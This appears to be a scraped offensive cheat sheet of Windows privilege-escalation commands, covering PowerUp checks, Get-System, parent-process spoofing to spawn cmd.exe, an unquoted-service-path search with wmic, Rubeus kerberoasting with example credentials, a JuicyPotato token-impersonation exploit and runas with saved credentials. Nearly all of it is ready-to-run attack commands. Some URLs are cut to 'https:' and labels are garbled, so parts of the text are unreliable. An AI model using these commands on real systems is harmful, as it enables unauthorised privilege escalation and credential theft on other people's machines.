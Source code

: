 
**General**
-----------

```

<code>

https:
powershell.exe -c "Import-Module C:\Users\Public\PowerUp.ps1; Invoke-AllChecks"
powershell.exe -c "Import-Module C:\Users\Public\Get-System.ps1; Get-System"


. .\getsystem.ps1; [Myprocess]::CreateProcessFromParent((Get-Process Isass).Id,"cmd.exe")

https:

https:

wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """</code>Code language: PHP (php)
```


**Kerberoast**
--------------

– For kerberos to work, times have to be within 5 minutes between attacker and victim.

```


.\.rubeus.exe kerberoast /creduser:ecorp\user/credpassword:pass1234

setspn.exe -t evil.corp -q *Code language: PHP (php)
```


**Juicy Potato Exploit**
------------------------

[https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases) Pick one CLSID from here according to your system [https://github.com/ohpe/juicy-potato/tree/master/CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

Required tokens SeAssignPrimaryTokenPrivilege SeImpersonatePrivilege

```

C:\Windows\Temp\JuicyPotato.exe -p cmd.exe -a "/c whoami > C:\Users\Public\morph3.txt" -t * -l 1031 -c {d20a3293-3341-4ae8-9aaf-8e397cb63c34}Code language: JavaScript (javascript)
```


**Stored Credential**
---------------------

```



runas /user:administrator /savecred "cmd.exe /k whoami"Code language: PHP (php)
```
